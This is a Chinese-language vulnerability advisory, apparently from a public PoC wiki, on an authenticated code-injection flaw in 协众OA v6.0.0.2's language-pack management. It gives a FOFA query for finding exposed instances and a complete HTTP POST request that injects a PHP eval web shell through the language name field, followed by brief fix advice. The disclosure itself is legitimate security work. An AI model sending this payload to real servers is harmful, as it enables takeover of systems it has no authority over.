

# 协众oa-后台存在任意代码注入漏洞

# 漏洞描述

过后台管理员用户进入系统后，在系统设置⇒语言包管理功能中，添加语言功能存在任意代码写入漏洞；添加语言功能，直接写入恶意代码

# 影响版本

协众oa_v6.0.0.2

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="协众软件-协众OA"

POC/EXP：****

```
POST /index.php?app=main&func=system&action=language&task=editLanguage HTTP/1.1
Host: 192.168.31.105:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36 uacq
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 84
Origin: http://192.168.31.105:81
Connection: close
Referer: http://192.168.31.105:81/index.php
Cookie: CNOAOASESSID=uaj6jn0vojvh969ifeg0pa0de9; CNOA_language=cn; CNOA_NY_KEY=356961; CNOA_LOGIN_USERNAME=czo1OiJhZG1pbiI7; SECKEY_ABVK=/420bq5LeWyiFjJwZBYhJUs0O9885JC+Hd3fRVGJFbc%3D; BMAP_SECKEY=41sAeDfHudS5GjbYSnCXMeNNGuF959mefSOfp7Q1BW-zmQLRDmZItO3r-vrtElKNrWcdKRzkMBtKmXskKosF1X5lBthRP4xgKXOf0aYSPx2b8f7GzDtdT2HYmOpB-v-oG0-tAmDPNy9dgxx34xryXMc-xflZJUjxr9fsdkzIsm9UfebGh-0URztMUHwuDzDOiNee0PzYZjfXeqOsRHtN0A; ys-CNOA_main_user_index_treeState=s%3A
X-Forwarded-For: 127.0.0.1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="113", "Chromium";v="113", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0

id=3&cnoanykey=356961&name=%E4%BF%84%E8%AF%AD';//%0a@eval($_POST[1]);%0a//&status=on

```





# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
